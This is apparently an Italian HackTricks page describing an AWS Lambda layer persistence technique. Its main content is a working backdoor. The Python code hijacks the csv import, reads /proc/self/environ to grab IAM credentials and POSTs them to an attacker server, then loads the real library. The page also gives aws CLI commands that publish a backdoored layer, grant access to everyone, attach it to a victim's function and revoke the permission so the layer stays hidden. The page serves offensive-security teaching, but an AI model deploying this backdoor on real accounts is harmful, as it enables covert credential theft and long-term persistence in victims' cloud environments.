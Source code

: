 # AWS - Persistenza delle Lambda Layers

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lambda Layers

Una Lambda layer è un archivio .zip che **può contenere codice aggiuntivo** o altro contenuto. Una layer può contenere librerie, un [runtime personalizzato](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dati o file di configurazione.

È possibile includere fino a **cinque layers per funzione**. Quando includi una layer in una funzione, i **contenuti vengono estratti nella directory `/opt`** nell'ambiente di esecuzione.

Per **definizione**, le **layers** che crei sono **private** al tuo account AWS. Puoi scegliere di **condividere** una layer con altri account o di **rendere** la layer **pubblica**. Se le tue funzioni consumano una layer pubblicata da un altro account, le tue funzioni possono **continuare a utilizzare la versione della layer dopo che è stata eliminata, o dopo che il tuo permesso di accesso alla layer è stato revocato**. Tuttavia, non puoi creare una nuova funzione o aggiornare funzioni utilizzando una versione di layer eliminata.

Le funzioni distribuite come immagine del contenitore non utilizzano le layers. Invece, impacchetti il tuo runtime preferito, librerie e altre dipendenze nell'immagine del contenitore quando costruisci l'immagine.

### Percorso di caricamento Python

Il percorso di caricamento che Python utilizzerà in lambda è il seguente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Controlla come le **seconda** e terza **posizioni** sono occupate da directory dove i **lambda layers** decomprimono i loro file: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se un attaccante riesce a **backdoor** un **layer** lambda utilizzato o **aggiungerne uno** che eseguirà **codice arbitrario quando una libreria comune viene caricata**, sarà in grado di eseguire codice malevolo con ogni invocazione di lambda.
{% endhint %}

Pertanto, i requisiti sono:

* **Controllare le librerie** che sono **caricate** dal codice delle vittime
* Creare una **libreria proxy con lambda layers** che **eseguirà codice personalizzato** e **caricherà la libreria originale**.

### Librerie pre-caricate

{% hint style="warning" %}
Quando si abusa di questa tecnica ho trovato una difficoltà: Alcune librerie sono **già caricate** nel runtime di python quando il tuo codice viene eseguito. Mi aspettavo di trovare cose come `os` o `sys`, ma **anche la libreria `json` era caricata**.\
Per abusare di questa tecnica di persistenza, il codice deve **caricare una nuova libreria che non è caricata** quando il codice viene eseguito.
{% endhint %}

Con un codice python come questo è possibile ottenere la **lista delle librerie che sono pre-caricate** all'interno del runtime di python in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E questa è la **lista** (controlla che librerie come `os` o `json` siano già presenti)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E questa è la lista delle **librerie** che **lambda include installate per impostazione predefinita**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring del Lambda Layer

In questo esempio supponiamo che il codice target stia importando **`csv`**. Stiamo per **backdooring l'importazione della libreria `csv`**.

Per fare ciò, andremo a **creare la directory csv** con il file **`__init__.py`** al suo interno in un percorso che viene caricato da lambda: **`/opt/python/lib/python3.9/site-packages`**\
Poi, quando il lambda viene eseguito e cerca di caricare **csv**, il nostro **file `__init__.py` verrà caricato ed eseguito**.\
Questo file deve:

* Eseguire il nostro payload
* Caricare la libreria csv originale

Possiamo fare entrambe le cose con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Poi, crea uno zip con questo codice nel percorso **`python/lib/python3.9/site-packages/__init__.py`** e aggiungilo come un layer lambda.

Puoi trovare questo codice in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Il payload integrato **invierà le credenziali IAM a un server LA PRIMA VOLTA che viene invocato o DOPO un reset del contenitore lambda** (cambio di codice o lambda a freddo), ma **altre tecniche** come le seguenti potrebbero essere integrate:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Layer Esterni

Nota che è possibile utilizzare **layer lambda da account esterni**. Inoltre, un lambda può utilizzare un layer da un account esterno anche se non ha permessi.\
Nota anche che il **numero massimo di layer che un lambda può avere è 5**.

Pertanto, per migliorare la versatilità di questa tecnica, un attaccante potrebbe:

* Backdoor un layer esistente dell'utente (niente è esterno)
* **Creare** un **layer** nel **suo account**, dare accesso all'**account vittima** per utilizzare il layer, **configurare** il **layer** nel Lambda della vittima e **rimuovere il permesso**.
* Il **Lambda** sarà ancora in grado di **utilizzare il layer** e la **vittima non avrà** alcun modo semplice per **scaricare il codice dei layer** (a parte ottenere una rev shell all'interno del lambda)
* La vittima **non vedrà i layer esterni** utilizzati con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

